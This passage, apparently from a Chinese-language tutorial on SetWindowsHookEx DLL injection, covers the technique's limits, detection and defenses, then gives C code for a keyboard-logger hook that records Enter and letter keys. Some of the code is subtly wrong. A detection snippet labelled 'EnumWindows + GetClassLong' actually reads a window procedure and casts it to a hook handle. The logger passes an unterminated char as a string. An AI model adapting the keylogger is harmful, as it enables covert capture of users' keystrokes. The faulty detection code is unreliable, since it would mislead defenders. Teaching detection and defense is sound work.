 ### SetWindowsHookEx 的劣势

1. **仅限 GUI** - 无法注入控制台/服务进程
2. **需要窗口信息** - 必须知道窗口标题或句柄
3. **DLL 要求** - 必须导出特定函数
4. **触发延迟** - 需要等待消息或用户交互

## 🔍 检测与防御

### 检测方法

1. **EnumWindows + GetClassLong** - 检测异常钩子
   ```c
   HHOOK hHook = (HHOOK)GetWindowLongPtr(hwnd, GWLP_WNDPROC);
   ```

2. **进程内存扫描** - 检测未预期的 DLL
   ```c
   EnumProcessModules(hProcess, ...);
   ```

3. **钩子链审计** - 检测钩子链中的可疑 DLL
   ```c
   // 检测系统范围内所有钩子
   ```

4. **EDR/AV 监控** - 监视 SetWindowsHookEx 调用
   - 检测频繁设置钩子的行为
   - 检测从非信任位置加载的 DLL

### 防御措施

1. **应用程序白名单** - 只允许信任的 DLL
2. **代码签名验证** - 验证 DLL 的数字签名
3. **钩子监控** - 定期检查进程的钩子链
4. **内存保护** - 使用 ASLR、DEP 等保护机制

## 🛠️ 高级用法

### 1. 键盘记录器

```c
__declspec(dllexport) LRESULT CALLBACK NextHook(int code, WPARAM wParam, LPARAM lParam) {
    if (code == HC_ACTION) {
        // wParam = 虚拟键码
        if (wParam == VK_RETURN) {
            // 记录 Enter 键
            LogKeyPress("ENTER");
        } else if (wParam >= 0x41 && wParam <= 0x5A) {
            // 记录字母键
            char key = (char)wParam;
            LogKeyPress(&key);
        }
    }
    return CallNextHookEx(NULL, code, wParam, lParam);
}
```
